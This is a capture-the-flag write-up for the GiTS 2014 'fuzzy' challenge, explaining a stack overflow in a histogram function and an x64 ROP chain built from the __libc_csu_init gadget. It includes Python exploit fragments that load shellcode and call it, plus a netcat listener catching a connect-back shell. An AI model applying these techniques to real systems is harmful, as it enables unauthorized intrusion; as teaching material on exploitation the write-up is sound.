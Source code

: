 ```yaml
---
title: 'GiTS 2014: fuzzy'
author: awreece
layout: post
categories:
  - General News
---
```

tl;dr &#8211; `fuzzy` is a &#8220;super secure parsing engine&#8221;, that includes a histogram function. The histogram ascii text uses a buffer on the stack, but will increment  
buckets past the end of the buffer if non ascii text is provided, allowing us to  
rop. 

<!--more-->

Binary and exploit available [here][1].

## The program

`fuzzy` is a &#8220;super secure parsing engine&#8221;, that includes a histogram function:

<div class="highlight">
  <pre>$ nc fuzzy.2014.ghostintheshellcode.com 4141
Welcome to the super secure parsing engine!
Please select a parser!

1) Sentence histogram
2) Sorted characters (ascending)
3) Sorted characters (decending)
4) Sorted ints (ascending)
5) Sorted ints (decending
6) global_find numbers in string
1
Enter a series of characters
hello
 :0 !:0 ":0 #:0 $:0 
%:0 &:0 &#39;:0 (:0 ):0 
... &lt;snip&gt; ...
a:0 b:0 c:0 d:0 e:1 
f:0 g:0 h:1 i:0 j:0 
k:0 l:2 m:0 n:0 o:1 
p:0 q:0 r:0 s:0 t:0 
u:0 v:0 w:0 x:0 y:0 
z:0 {:0 |:0 }:0
</pre>
</div>

As you can see, it computes a histogram of the input. This histogram  
is constructed using a buffer that is on the stack, so if we send it  
non-ascii text we can write to the stack. By modifying the saved `ebp`,  
we can point the stack to a buffer we control. 

Unfortunately, this is a bit challenging to figure out because all  
the interesting functions are encrypted. Fortunately for us, the &#8220;encryption&#8221;  
is just bitwise not. Using our favorite hex editor, we make a new binary with  
the decrypted functions to reverse.

With control of the stack, we get control over rip and can ROP.  
We will use the `callFunction` function, which decrypts a function  
into an executable page and then runs it. Our goal will be to `read` encrypted shellcode  
into a known location (there is a convenient buffer `dontcollide` in the data  
section that is never used), then invoke `callFunction` to run our shellcode.  
Unfortunately, since this is x64, we need to find a good gadget to be able to  
control registers and call functions. Luckily, there is a good gadget in  
`__libc_csu_init`:

<div class="highlight">
  <pre>loc_401790:                             ; CODE XREF: __libc_csu_init+64j
                mov     rdx, r13
                mov     rsi, r14
                mov     edi, r15d
                call    qword ptr [r12+rbx*8]
                add     rbx, 1
                cmp     rbx, rbp
                jnz     short loc_401790

loc_4017A6:                             ; CODE XREF: __libc_csu_init+4Aj
                mov     rbx, [rsp+8]
                mov     rbp, [rsp+10h]
                mov     r12, [rsp+18h]
                mov     r13, [rsp+20h]
                mov     r14, [rsp+28h]
                mov     r15, [rsp+30h]
                add     rsp, 38h
                retn
</pre>
</div>

This gadget allows us to control the first three registers we need an call  
anything we have function pointer to. The program uses a large function pointer table to enable  
the encrypted functions to call library functions, so we have pointers to many  
library functions. Unfortunately, we do *not* have a pointer to `readAll`, so we  
cannot use it with our gadget. Furthermore, our gadget only controls 3 arguments,  
so we cannot easily use `recv`. Lastly, we cannot use the encrypted `my_readAll`  
function (that we have a pointer to) because it reads its arguments out of a  
buffer and we don&#8217;t have an easy way to call functions with a buffer we control  
as an argument. Still, this gadget allows us to chain calls arbitrary function pointers  
with 3 arguments:

<div class="highlight">
  <pre># Assumes rip points to loc_4017A6.
def call(function_ptr, arg0, arg1, arg2):
  # Make sure rbx is 0 to make math easy, and rbp is 1 so we fall through to
  # loc_4017A6 for repeated calls.
  #      padding            rbx       rbp       r12                  r13=rdx      r14=rsi      r15=edi
  return pack(0xdeadbeef) + pack(0) + pack(1) + pack(function_ptr) + pack(arg2) + pack(arg1) + pack(arg0) + pack(__libc_csu_init_gadget)
</pre>
</div>

Instead, we make a function pointer to `readAll` in the data section that we can use our  
gadget.  
We call `memset` 4 times, once for each distinct byte in  
the the address of `readAll`, and make `dontcollide` a pointer to `readAll`.

<div class="highlight">
  <pre># Set dontcollide to be a function pointer to readAll (0x4013cb).
payload += call(memset_fptr, dontcollide, 0, 8)
payload += call(memset_fptr, dontcollide, 0xcb, 1)
payload += call(memset_fptr, dontcollide + 1, 0x13, 1)
payload += call(memset_fptr, dontcollide + 2, 0x40, 1)
</pre>
</div>

We then can use our gadget to call `readAll`,  
reading the encrypted shellcode into `dontcollide`, and then again to call  
`callFunction`, executing our shellcode. 

<div class="highlight">
  <pre># Read the shellcode into a buffer. The socket to read from is 4.
payload += call(dontcollide, 4, dontcollide, 0x400)

# Call our shellcode.
payload += call(callEncryptedFunction_fptr, dontcollide, 0, 0)
</pre>
</div>

We grab some connect back shellcode  
and get a shell:

<div class="highlight">
  <pre>~% python fuzzy.py                                           [console 1]
~% nc -l 16705                                               [console 2]
cat key.txt
key is: fuzzingIsFun2
</pre>
  
  <p>
    Writeup by Alex Reece, see me on <a href="https://plus.google.com/106589059588263736517?rel=author">Google+</a> or my <a href="http://codearcana.com">blog</a>.
  </p>

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2014/01/fuzzy.tar.gz